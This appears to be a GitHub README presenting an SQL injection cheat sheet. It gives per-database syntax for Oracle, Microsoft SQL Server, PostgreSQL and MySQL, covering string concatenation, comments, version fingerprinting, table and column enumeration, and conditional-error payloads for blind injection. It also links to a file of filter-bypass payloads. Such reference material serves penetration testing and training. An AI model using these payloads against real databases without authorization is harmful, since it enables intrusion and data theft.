 <h1>SQL Injection Cheat Sheets</h1>
<p>This contains examples of useful syntax to perform SQL injection Attacks.</p>

<a href="https://github.com/kaung-khant-zaw223/cheat-sheets/blob/main/SQL_Injection_ByPass_Payloads.md">SQL Injection Bypass Payloads</a>

<h2>String Concatenation</h2>
<p><b>Oracle      :</b> 'foo'||'bar'</p>
<p><b>Microsoft   :</b> 'foo'+'bar'</p>
<p><b>PostgreSQL:</b> 'foo'||'bar' </p>
<p><b>MySQL:</b> 'foo' 'bar'</p>

<h2>Substring</h2>
<p><b>Oracle:</b> SUBSTR('foobar', 4, 2)</p>
<p><b>Microsoft:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>PostgreSQL:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>MySQL:</b> SUBSTRING('foobar', 4, 2)</p>

<h2>Comments</h2>
<p><b>Oracle:</b> --comment</p>
<p><b>Microsoft:</b> --comment (or) /*comment*/ </p>
<p><b>PostgreSQL:</b> --comment (or) /*comment*/ </p>
<p><b>MySQL:</b> #comment (or) --comment (or) /*comment*/</p>

<h2>Database Version</h2>
<p><b>Oracle:</b> SELECT banner FROM v$version (or) SELECT version FROM v$instance</p>
<p><b>Microsoft:</b> SELECT @@version</p>
<p><b>PostgreSQL: </b> SELECT version()</p>
<p><b>MySQL:</b> SELECT @@version </p>

<h2>Database Contents</h2>
<p><b>Oracle:</b> SELECT * FROM all_tables (or) SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>Microsoft:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>PostgreSQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>MySQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>

<h2>Conditional Errors</h2>
<p><b>Oracle:</b> SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual</p>
<p><b>Microsoft:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</p>
<p><b>PostgreSQL:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END</p>
<p><b>MySQL:</b>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</p>

